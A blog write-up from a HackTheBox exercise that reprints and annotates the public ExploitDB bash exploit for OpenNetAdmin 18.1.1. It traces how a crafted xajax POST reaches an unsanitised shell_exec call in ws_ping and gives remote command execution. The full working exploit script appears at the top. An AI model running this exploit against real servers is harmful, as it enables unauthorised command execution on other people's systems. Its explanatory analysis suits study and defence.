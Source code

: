 ```yaml
---
layout: post
title: Exploit Analysis - OpenNetAdmin 18.1.1 RCE
---
```

While doing the OpenAdmin challenge on HackTheBox I used an exploit for OpenNetAdmin 18.1.1 that allowed Remote Code Execution. On a normal Kali install, this exploit can be found here: ```/usr/share/exploitdb/exploits/php/webapps/47691.sh```. I wanted to dive a little deeper into how the script worked, so I reformatted it to be more readable and annotated it. Then, I hit up my friend [@jeongm-in](https://github.com/jeongm-in) and we brokedown the exploit.

```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/

# Software Link: https://github.com/opennetadmin/ona

# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

# take in first argument, save as URL variable
URL="${1}"

# loop until SIGINT (Ctrl-C)
while true ; do

# print "$ " to represent shell prompt without trailing newline
    echo -n "$ "

# read a line from stdin (i.e. wait for command), save as cmd variable
    read cmd

# use curl's data field to inject command
    curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
---
## Exploit Command Breakdown

```bash
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

### curl flags
```bash
curl --silent -d
```

```curl```'s flags disable the progress bar and make a POST request containing the included data.

### xajax=window_submit
```bash
"xajax=window_submit"
```

xajax is a PHP library that implements Ajax. Per ona documentation of [webwin.inc.php](https://fossies.org/dox/ona-18.1.1/webwin_8inc_8php_source.html), we can use xajax to open a new "window" in a current page.

window_submit is a generic wrapper to handle window form submits that takes in three arguments.
```php
function window_submit($window_name, $form='', $function='') {
// Instantiate the xajaxResponse object
    $response = new xajaxResponse();
    if (!$window_name or !$form) { return($response->getXML()); }
    $js = "";
    
    printmsg("DEBUG => webwin_submit() Window: {$window_name} Function: {$function} Form: {$form}", 1);
```

### xajaxr=1574117726710
```bash
"&xajaxr=1574117726710"
```

```&xajaxr=1574117726710``` is ignored and is actually unnecessary for the script to run. The number looks like a Unix Timestamp, specifically 1574117726710ms since epoch. We can convert it to seconds from milliseconds by dividing by 1000, and then use the date command.
```shell
root@kali:~/# date -d @1574117726.71
Mon 18 Nov 2019 05:55:26 PM EST
```
2019-11-18 is a day before the official vulnerability disclosure date in the header (2019-11-19), so we were right!

### xajaxargs[]
```bash
"&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping"
```

Now, we are passing three xajax argument arrays with the xajaxargs[] parameters into the three parameters of window_submit. Note however, there are two url-encoded characters in the second xajaxargs[]. ```%3D``` represents ```=``` and ```%3E``` represents ```>```. The double arrow operator ```=>``` in PHP is used to assign values to the keys of an array. 
 
 Essentially:
 ```php
 $window_name = 'tooltips';
 $form = 'ip=>echo \"BEGIN\";${cmd};echo \"END\"';
 $function = 'ping';
```

Further on in the implementation of window_submit, the parameters are processed. Our own comments are prefaced with ```////```.

```php
[...]
//// Since $function is defined, we skip the first case.    
    // If a function name wasn't provided, we look for a function called:
    //   $window_name . '_submit'
    if (!$function) {
        $function = "{$window_name}_submit";
    }

//// $function = ping → ws_ping. ws_ping is a function within tooltips.inc.php that uses
//// the PHP function shell_exec() to execute a ping command. We expect that the writer
//// of this exploit searched the docs for use of this function and worked backward to
//// get RCE.
    $function = 'ws_' . $function;

//// ws_ping does not exist within webwin.inc.php, so this case is skipped.
    // If the function exists, run it and return it's output (an xml response)
    if (function_exists($function)) { return($function($window_name, $form)); }

//// $window_name was set to 'tooltips', because tooltips.inc.php defines the function
//// ws_ping. windows_find_include() locates the function definition from the
//// $window_name.
    // Try looking for the same function in an include file
    $file = window_find_include($window_name);
    if ($file) { require_once($file); }
    else { $response->addAssign("work_space_content", "innerHTML", "<br><center><font color=\"red\"><b>Invalid window requested: {$window_name}</b></font></center>"); }

//// ws_ping is available and is passed the so far unchanged $window_name and $form
//// variables.
    // Now see if our function is available...
    if (function_exists($function)) { return($function($window_name, $form)); }
[...]
```
By the end:
```php
$function($window_name, $form)
//// becomes
ws_ping('tooltips',  'ip=>; echo "\"BEGIN\";  ${cmd};  echo \"END\"')
```

Now in [tooltips.inc.php](https://fossies.org/dox/ona-18.1.1/tooltips_8inc_8php_source.html) we get to the command injection. Our own comments are once again prefaced by ```////```.

```php
// Simple ping function that takes an IP in and pings it.. then shows the output in a module results window
function ws_ping($window_name, $form='') {

//// parse_options_string(), defined in xajax_setup.inc.php, uses preg_match() to ensure
//// '/=>/' is in the input and builds an array from its assignments.
    // If an array in a string was provided, build the array and store it in $form
    $form = parse_options_string($form);

//// $form['ip'] = '; echo "\"BEGIN\";  ${cmd};  echo \"END\"'
//// The semicolon ends the ping command, and injects the command that is originally
//// read from stdin to the exploit script. BEGIN and END are echo'd before and after
//// respectively to allow easier filtering of the curl output.
    $output = shell_exec("ping -n -w 3 -c 3 {$form['ip']}");
    
    $window['title'] = 'Ping Results';
    $build_commit_html = 0;
    $commit_function = '';
    include(window_find_include('module_results'));
    return(window_open("{$window_name}_results", $window));
}
```

### ${URL}
```bash
curl --silent -d "[...]" "${URL}"
```
The URL variable tells  ```curl``` where to send the data. With this exploit, we have to specify the location of the OpenNetAdmin directory, e.g. ```http[s]://<ip>:<port>/ona/```.


### sed, tail, and head
```bash
    curl --silent -d "[...]" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```
Lastly, the ```curl``` output is piped into ```sed``` where the XML is stripped away minus the lines the BEGIN and END are ```echo```'d and the output of the executed command between them. That output is piped into ```tail``` and then ```head``` to only display the output of the executed command.
